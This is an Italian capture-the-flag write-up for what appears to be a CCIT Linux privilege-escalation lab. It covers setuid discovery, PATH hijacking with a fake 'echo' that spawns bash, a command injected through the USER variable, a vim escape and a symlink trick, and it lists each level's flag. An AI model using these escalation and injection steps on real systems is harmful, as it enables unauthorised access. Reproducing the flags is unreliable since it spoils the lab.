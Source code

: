 # BootsTrap
Appena si avvia la vm con l'iso compare la flag: `CCIT{72318565-c76d-4ed9-81b6-afc582e75777}`

# SetUID
```
find / -perm /u+s 2>/dev/null -> elimina le righe che ritornano autorizzazione negata.
/usr/share/nano/fishy -> Accesso a shell con autorizzazione dell'user flag01.
CCIT{997874cf-581a-49ca-a449-51d24dd31fa5}
```

# Arbitrary Command Exec
```
system("usr/bin/env echo ..."); seguito dal nome di un programma esegue quel programma, quello sarebbe equivalente a bin/echo, in sostanza 
cerca il primo eseguibile 'echo' nelle directory configurate della PATH.
Si va su level01, si crea un file C echo.c:
int main() { 
  system("/bin/bash"); 
} -> gcc -o echo echo.c, cosi da avere l'eseguibile echo personalizzato.
Si procede a modificare la PATH, export PATH=/home/level00:$PATH, cosi è la prima che viene letta, e con ./flag01 si ottiene la shell di flag01.
CCIT{0fc0a412-4184-4c9d-af48-498f7bc713db}
```


# Arbitrary Command Exec 2
```
Si ragiona nello stesso modo, soltando con USER, se proviamo export USER=poop -> ./flag02 -> poop is cool.
Ora serve solo concatenare piu istruzione ad USER con ';' export USER="poop; /bin/bash #" -> ./flag02 -> Ottengo la shell di flag02.
CCIT{b5b43a28-962d-42ea-92b6-cefa552766a0}
```

# Exit VIM
```
Basta usare i comandi :Sex, :./myvi -> Appare FlAg.TxT, CCIT{c1cd2007-55bb-4a40-9f91-21f5e2207db1}
```

# Read flag
```
Creare un symlinks: ln -s /home/flag04/flag.txt /home/level04/file.txt -> ./flag04 /home/level04/file.txt.
CCIT{4c886115-a6ca-4141-b0a2-69a25cadceaf}
```

